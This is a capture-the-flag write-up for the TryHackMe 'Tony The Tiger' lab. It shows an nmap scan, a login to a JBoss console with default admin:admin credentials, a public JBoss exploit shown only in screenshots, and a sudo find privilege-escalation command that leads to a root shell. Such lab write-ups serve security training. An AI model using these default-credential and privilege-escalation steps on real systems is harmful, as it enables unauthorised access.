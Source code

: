 # TryHackMe-Tony The Tiger

## NMAP

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-14 20:08 PKT                                                      
Nmap scan report for 10.10.127.87                                                                                    
Host is up (0.15s latency).                                                                                                                         
Not shown: 989 closed ports                                                                                          
PORT     STATE SERVICE     VERSION                                                                                   
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)                           
| ssh-hostkey:                                                                                                       
|   1024 d6:97:8c:b9:74:d0:f3:9e:fe:f3:a5:ea:f8:a9:b5:7a (DSA)                                                       
|   2048 33:a4:7b:91:38:58:50:30:89:2d:e4:57:bb:07:bb:2f (RSA)                                                       
|   256 21:01:8b:37:f5:1e:2b:c5:57:f1:b0:42:b7:32:ab:ea (ECDSA)                                                      
|_  256 f6:36:07:3c:3b:3d:71:30:c4:cd:2a:13:00:b5:25:ae (ED25519)                                                    
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))                                                             
|_http-generator: Hugo 0.66.0                                                                                        
|_http-server-header: Apache/2.4.7 (Ubuntu)                                                                          
|_http-title: Tony&#39;s Blog                                                                                        
1090/tcp open  java-rmi    Java RMI                                                                                  
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)                                                 
1091/tcp open  java-rmi    Java RMI                                                                                                                 
1098/tcp open  java-rmi    Java RMI                                                                                  
1099/tcp open  java-object Java Object Serialization                                                                 
| fingerprint-strings:                                                                                                                              
|   NULL:                                                                                                                                           
|     java.rmi.MarshalledObject|                                                                                                                    
|     hash[                                                                                                                                         
|     locBytest                                                                                                                                     
|     objBytesq                                                                                                                                     
|     xpCCB                    
|     xpCCB                          
|     #http://thm-java-deserial.home:8083/q                               
|     org.jnp.server.NamingServer_Stub                                    
|     java.rmi.server.RemoteStub                                          
|     java.rmi.server.RemoteObject                                        
|     xpwA                           
|     UnicastRef2                    
|_    thm-java-deserial.home         
4446/tcp open  java-object Java Object Serialization                      
5500/tcp open  hotline?              
| fingerprint-strings:               
|   DNSStatusRequestTCP:             
|     GSSAPI                         
|     NTLM                           
|     CRAM-MD5                       
|     DIGEST-MD5                     
|     thm-java-deserial              
|   DNSVersionBindReqTCP, GenericLines, NULL:                             
|     CRAM-MD5                       
|     GSSAPI                         
|     NTLM                           
|     DIGEST-MD5                     
|     thm-java-deserial              
|   GetRequest:                      
|     DIGEST-MD5                     
|     CRAM-MD5                       
|     GSSAPI                         
|     NTLM                           
|     thm-java-deserial              
|   HTTPOptions:                     
|     DIGEST-MD5                     
|     GSSAPI                         
|     CRAM-MD5                       
|     NTLM          
|     thm-java-deserial              
|   Help:                            
|     NTLM                           
|     GSSAPI                         
|     DIGEST-MD5                     
|     CRAM-MD5                       
|     thm-java-deserial              
|   Kerberos:                        
|     CRAM-MD5                       
|     DIGEST-MD5                     
|     GSSAPI                         
|     NTLM                           
|     thm-java-deserial              
|   RPCCheck:                        
|     NTLM                           
|     DIGEST-MD5                     
|     CRAM-MD5                       
|     GSSAPI                         
|     thm-java-deserial              
|   RTSPRequest:                     
|     GSSAPI                         
|     NTLM                           
|     DIGEST-MD5                     
|     CRAM-MD5                       
|     thm-java-deserial              
|   SSLSessionReq:                   
|     GSSAPI                         
|     DIGEST-MD5                     
|     NTLM                           
|     CRAM-MD5                       
|     thm-java-deserial              
|   TLSSessionReq:                   
|     GSSAPI                         
|     DIGEST-MD5                     
|     NTLM                           
|     thm-java-deserial              
|   TerminalServerCookie:            
|     DIGEST-MD5                     
|     CRAM-MD5                       
|     NTLM                           
|     GSSAPI                         
|_    thm-java-deserial              
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)                   
| ajp-methods:                       
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS                                                                                       
|   Potentially risky methods: PUT DELETE TRACE                           
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html                  
8080/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1                                                                                      
| http-methods:                      
|_  Potentially risky methods: PUT DELETE TRACE                           
|_http-open-proxy: Proxy might be redirecting requests                    
|_http-server-header: Apache-Coyote/1.1                                   
|_http-title: Welcome to JBoss AS                                         
8083/tcp open  http        JBoss service httpd                            
|_http-title: Site doesn't have a title (text/html).                   
```
## PORT 80

<img src="https://imgur.com/TV4u49m.png"/>

We see an image so let's see if there is any stegongraphy involved in this

<img src="https://imgur.com/r7q42WH.png"/>

I tried to run `steghide` to extract something from the image but failed as there is something wrong with the bytes in the image

<img src="https://imgur.com/NeZlGLN.png"/>

Run `strings` on the image

<img src="https://imgur.com/7IUwqil.png"/>


Now download `jboss.zip` which is provided in the room



## PORT 8080

<img src="https://imgur.com/8HOa5VJ.png"/>

There is an `administrative console` and try to login with default credentials which are `admin`:`admin`

<img src="https://imgur.com/0JLEwU4.png"/>

<img src="https://imgur.com/ZAXM7JP.png"/>


<img src="https://imgur.com/hWrXG53.png"/>


Now search for the `jboss` exploit and on the github page you'll find it

<img src="https://imgur.com/eVgsIfx.png"/>

Run it like it does in the picture

<img src="https://imgur.com/8rS5aAp.png"/>

<img src="https://imgur.com/0MpKvKB.png"/>

Looking in `jboss` directory we'll find a password 

<img src="https://imgur.com/a5ydOew.png"/>

## Privilege Escalation

<img src="https://imgur.com/2ADqgUL.png"/>

We can see that we can run `find` as `sudo` so we can run find to execute a command to add `jboss` in sudoers

`jboss@thm-java-deserial:~$ sudo /usr/bin/find . -exec usermod -aG jboss \;`


```
jboss@thm-java-deserial:~$ sudo -l                                                                                                                  
Matching Defaults entries for jboss on thm-java-deserial:                                                                                           
    env_reset, mail_badpass,                                                                                                                        
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                        
                                                                                                                                                    
User jboss may run the following commands on thm-java-deserial:                                                                                     
    (ALL) NOPASSWD: /usr/bin/find                                                                                                                   
    (ALL : ALL) ALL                                                                                                                                 
jboss@thm-java-deserial:~$ sudo bash                                                                                                                
[sudo] password for jboss:                                                                                                                          
root@thm-java-deserial:~#    
```
To get the root flag , it is in `base64` encoded

<img src="https://imgur.com/VRkOsqs.png"/>

Now let's use `hashcat` it is in `md5 raw` so we can crack it 
<img src="https://imgur.com/sCt8jzN.png"/>

<img src="https://imgur.com/78s7kFU.png"/>

